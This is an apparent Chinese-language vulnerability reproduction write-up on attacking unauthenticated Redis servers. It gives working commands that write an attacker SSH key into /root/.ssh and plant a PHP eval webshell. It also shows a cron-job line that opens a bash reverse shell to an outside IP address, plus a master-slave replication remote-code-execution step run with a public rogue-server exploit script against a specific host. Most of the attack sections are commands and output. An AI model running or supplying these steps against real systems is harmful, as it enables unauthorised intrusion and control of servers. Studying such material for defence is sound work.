







### 漏洞描述

Redis（Remote Dictionary Server )，即远程字典服务，是一个开源的使用ANSI C语言编写、支持网络、可基于内存亦可持久化的日志型、Key-Value数据库，并提供多种语言的API。

Redis 默认情况下，会绑定在 0.0.0.0:6379，如果没有进行采用相关的策略，比如添加防火墙规则避免其他非信任来源 ip 访问等，这样将会将 Redis 服务暴露到公网上，如果在没有设置密码认证（一般为空）的情况下，会导致任意用户在可以访问目标服务器的情况下未授权访问 Redis 以及读取 Redis 的数据。

### 利用条件

1. 没有进行添加防火墙规则避免其他非信任来源ip访问等相关安全策略，直接暴露在公网。
2. 没有设置密码认证（一般为空），可以免密码远程登录redis服务。

### 漏洞复现

#### 写入文件

原理就是在数据库中插入一条数据，将本机的公钥作为value,key值随意，然后通过修改数据库的默认路径为/root/.ssh和默认的缓冲文件authorized.keys,把缓冲的数据保存在文件里，这样就可以在服务器端的/root/.ssh下生一个授权的key。

写webshell也是同理，将一句话木马写入redis，再将缓冲数据文件保存到web目录下

默认缓冲数据存放地址

~~~
101.43.138.109:8080> config get dir
1) "dir"
2) "/data"
101.43.138.109:8080> config get dbfilename
1) "dbfilename"
2) "dump.rdb"
~~~

准备好公钥文件

再把a.txt文件内容写入redis缓冲

~~~
cat a.txt | redis-cli -h 101.43.138.109 -p 8080 -x set key
注：-x 代表从标准输入读取数据作为该命令的最后一个参数。
~~~

更改rdb文件存储位置

~~~
101.43.138.109:8080> config set dir /root/.ssh
OK
101.43.138.109:8080> config set dbfilename authorized.keys
OK
101.43.138.109:8080> save
OK
~~~

查看authorized.keys文件，公钥已被写入。

写webshell

~~~
set webshell "\n\n\n\<?php @eval($_POST['shell']);?>\n\n\n"
save
~~~

还可以写计划任务反弹shell

~~~
set crontab "\n\n*/1 * * * * /bin/bash -i>&/dev/tcp/3.113.126.249/1234 0>&1\n\n"
config set dir /var/spool/cron
config set dbfilename root
save
~~~

> redis 可以创建文件但无法创建目录，所以， redis 待写入文件所在的目录必须事先存在。

这种利用方式需要redis有写文件的权限，遇到下面这种情况就无法利用了。

#### 主从复制RCE

主从复制，是指将一台Redis服务器的数据，复制到其他的Redis服务器。前者称为主节点(master)，后者称为从节点(slave),数据的复制是单向的，只能由主节点到从节点。通过数据复制，Redis 的一个 master 可以挂载多个 slave，而 slave 下还可以挂载多个 slave，形成多层嵌套结构。所有写操作都在 master 实例中进行，master 执行完毕后，将写指令分发给挂在自己下面的 slave 节点。slave 节点下如果有嵌套的 slave，会将收到的写指令进一步分发给挂在自己下面的 slave

开启主从复制的方式

~~~
配置文件： 在从服务器的配置文件中加入：slaveof <masterip> <masterport>
启动命令： redis-server启动命令后加入 --slaveof <masterip> <masterport>
客户端命令： Redis服务器启动后，直接通过客户端执行命令：slaveof <masterip> <masterport>，则该Redis实例成为从节点。
~~~

Redis提供**主从模式：**使用一个redis实例作为主机，其他实例都作为备份机，其中主机和从机数据相同，而从机只负责读，主机只负责写，通过读写分离可以大幅度减轻流量的压力，算是一种通过牺牲空间来换取效率的缓解方式。

在Reids 4.x之后，Redis新增了**模块功能**，通过外部拓展，可以实现在redis中实现一个新的Redis命令，通过写c语言并编译出.so文件。

> 很像mysql的UDF提权

在两个Redis实例设置主从模式的时候，Redis的主机实例可以通过**FULLRESYNC**同步文件到从机上。然后在从机上加载so文件，我们就可以执行拓展的新命令了。

从原理上来看，主从复制需要两台redis，攻击者控制master，靶机设置为slaveof master。实际利用中可以用python脚本模拟redis服务。

exp地址 https://github.com/vulhub/redis-rogue-getshell

~~~
python3 redis-master.py -r 101.43.138.109 -p 8080 -L 101.43.138.109 -P 2333 -f RedisModulesSDK/exp/exp.so -c "whoami"
~~~

使用system.exec执行了命令

可以看到so文件被同步到了靶机

